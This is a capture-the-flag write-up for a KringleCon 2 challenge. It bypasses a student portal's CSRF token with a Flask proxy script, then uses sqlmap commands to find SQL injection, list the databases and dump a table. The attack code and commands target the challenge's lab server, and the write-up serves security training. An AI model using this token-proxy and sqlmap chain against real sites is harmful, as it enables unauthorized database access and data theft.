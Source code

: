 # Retrieve the Scraps of Paper from Server
**Terminal Hint**: [Pepper Minstix - Graylog](../hints/h9.md)

## Request
> Gain access to the data on the [Student Portal](https://studentportal.elfu.org/) server and retrieve the paper scraps hosted there.  
> What is the name of Santa's cutting-edge sleigh guidance system?  
> For hints on achieving this objective, please visit the dorm and talk with Pepper Minstix.  
>  
> Krampus:  
> Unfortunately, I managed to lock out my account on the server.  
> Hey! You’ve got some great skills. Would you please hack into my system and retrieve the scans?  
> I give you permission to hack into it, solving Objective 9 in your badge.  
> And, as long as you're traveling around, be sure to solve any other challenges you happen across.

## Video
<div class="video-wrapper">
<iframe width="560" height="315" src="https://www.youtube.com/embed/FLEDsBv0Rhc?start=900" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</div>

## Resources
- [Student Portal](https://studentportal.elfu.org/)
- [OWASP SQL Injection](https://www.owasp.org/index.php/SQL_injection)
- [SQLMAP Tamper Scripts for The Win](https://pen-testing.sans.org/blog/2017/10/13/sqlmap-tamper-scripts-for-the-win)

## Solution
Pepper hints at using blind SQLi to retrieve the scraps from the server but whipping out [sqlmap](http://sqlmap.org) won't do us much good at this point. Both the `apply.php` and `check.php` pages contain a set of custom JavaScript functions that first retrieve a token value from `validator.php`. This value is then added to the form data and submitted to the server as a way to prevent [Cross-site request forgery](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)) (CSRF). For each request the server will first check the token and only accept the request if the token is valid.

![JavaScript](../img/objectives/o9/o9_1.png)

In other words, unless we tell sqlmap to submit a valid token with each of its requests, chances are the SQLi attempts won't even hit the backend database. Fortunately for us sqlmap has a `--csrf-url` option which allows you to specify a URL from where to retrieve tokens. Unfortunately for us, sqlmap also requires specifying the token field name via the `--csrf-token` option and `validator.php` doesn't set any token field names. It just returns the token value as-is.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url https://studentportal.elfu.org/validator.php --csrf-token=
```

![Token Response](../img/objectives/o9/o9_2.png)
![Sqlmap Fail](../img/objectives/o9/o9_3.png)

The problem can be solved by translating the `validator.php` response data to a format that sqlmap accepts (i.e. contains a token field name in the header or response body). When the below [Flask proxy script](../scripts/token_proxy.py.md) script receives a GET request it grabs a token value from `validator.php` and adds it as the value to a `token` field in both the header and body of its own HTTP response. 

```python
#!/usr/bin/env python3
"""KringleCon 2 - Retrieve Scraps of Paper from Server Challenge."""
import requests
from flask import Flask, Response
app = Flask(__name__)


@app.route("/")
def token():
    """Return a token."""
    url = 'https://studentportal.elfu.org/validator.php'
    token = requests.Session().get(url).text
    # Put the token in the body, input tag, and header.
    resp = Response(
        f'Token:{token}\n'
        '<form>\n'
        f'  <input type="hidden" id="token" name="token" value="{token}"/>\n'
        '</form>\n'
    )
    resp.headers['token'] = token
    return resp


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

Start the Flask proxy app so it's ready to respond to incoming token requests.

```shell
python3 token_proxy.py
```

![Flask Proxy](../img/objectives/o9/o9_5.png)
![Proxy Token Response](../img/objectives/o9/o9_4_both.png)

Now run the earlier sqlmap command again but with the `--csrf-url` parameter set to our proxy listening on 127.0.0.1:5000 and `--csrf-token` set to 'token'. This will allow sqlmap to send valid HTTP requests to the server and execute its SQLi attacks.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token
```

![Sqlmap Success 1](../img/objectives/o9/o9_6.png)
![Sqlmap Success 2](../img/objectives/o9/o9_7.png)

We now know the database type (i.e. MySQL) and that the setup is vulnerable to at least three types of SQL Injection attacks via the `elfmail` GET parameter: boolean-based blind, error-based, and time-based blind. Grab an overview of the available databases.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token --dbms=mysql --dbs
```

![Sqlmap DBs](../img/objectives/o9/o9_8.png)

`information_schema` is a default MySQL database so request the tables for `elfu`.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token --dbms=mysql --tables -D elfu
```

![Sqlmap Tables](../img/objectives/o9/o9_9.png)

Out of the three tables in the `elfu` database `krampus` looks like a good candidate so let's dump that.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token --dbms=mysql -D elfu -T krampus --dump
```

![Sqlmap Dump](../img/objectives/o9/o9_10.png)

Well that looks pretty promising. Download the PNG files from the Student Portal and reassemble them using an image editor.

![Letter](../img/objectives/o9/letter.png)

## Answer
Sleigh guidance system name: `Super Sled-o-matic`

## Hint
> Wow! We’ve uncovered quite a nasty plot to destroy the holiday season.  
> We’ve gotta stop whomever is behind it!  
> I managed to find this protected document on one of the compromised machines in our environment.  
> I think our attacker was in the process of exfiltrating it.  
> I’m convinced that it is somehow associated with the plan to destroy the holidays. Can you decrypt it?  
> There are some smart people in the NetWars challenge room who may be able to help us.
